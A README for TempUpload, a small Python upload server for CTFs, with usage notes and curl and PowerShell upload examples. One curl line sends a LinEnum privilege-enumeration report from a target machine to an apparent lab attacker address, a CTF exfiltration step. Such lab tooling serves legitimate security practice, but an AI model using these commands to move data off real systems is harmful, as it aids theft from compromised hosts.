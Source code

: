 ## TempUpload

A Upload Server For temporary use mostly helpful in ctfs etc.


## Features

- Works Fine on Both Windows and Linux.
- `localhost/list' => List all Files in Working Directory
- `localhost/upload' => Upload using Browser
- Only Uploading is implemented Directory listing is disabled 
- ['.py,'.ipynb'] are blacklisted can be changed in code.


## Uploading Using CLI

###Linux
- Using Curl
```shell
curl -F filename=@LinEnum_report 10.10.14.23:8080
```


###Windows Powershell
- Uploading via powershell depends on powershell version, check powershell.txt for more commands
```shell
$Uri = 'http://localhost:8080/'
$Form = @{
    filename     = Get-Item -Path 'c:\Pictures\jdoe.png'
}
$Result = Invoke-WebRequest -Uri $Uri -Method Post -Form $Form
```

### Usage
```shell
$ python upserver.py -h
usage: upserver.py [-h] [-p PORT] [-d DIRECTORY]

A Simple http server to upload for temporary use

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port to use avoid using 80,443 for non root user
  -d DIRECTORY, --directory DIRECTORY
                        Working Directory

```


## Built With

* [Python3]

### License
